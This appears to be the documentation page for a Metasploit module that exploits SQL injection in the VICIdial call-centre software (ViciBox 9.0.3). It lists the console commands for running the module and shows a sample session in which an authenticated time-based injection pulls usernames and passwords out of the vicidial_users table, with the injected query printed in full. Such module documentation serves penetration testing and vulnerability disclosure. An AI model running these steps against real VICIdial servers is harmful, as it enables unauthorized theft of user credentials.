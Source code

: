 1. Start msfconsole
1. Do: `use auxiliary/scanner/http/vicidial_multiple_sqli`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. Do `show actions`
   1. Select from the list or keep the default
1. Do: `run`
1. The module will exploit the selected SQL injection and return the extracted usernames and passwords

## Options

### Password

Password for the vicidial instance that corresponds to the username.

### Username

Username for the user to login with. Defaults to admin username of `6666`.

## Scenarios

### ViciBox 9.0.3 - List Users - modify_email_accounts method

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - modify_email_accounts method
action => List Users - modify_email_accounts method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(TXMlUAF) from (select cast(concat_ws(';',ifnull(user,''),ifnull(pass,'')) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Encoded to (select group_concat(TXMlUAF) from (select cast(concat_ws(0x3b,ifnull(user,repeat(0x87,0)),ifnull(pass,repeat(0x52,0))) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Time-based injection: expecting output of length 46
[!] No active DB -- Credential data will not be saved!
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

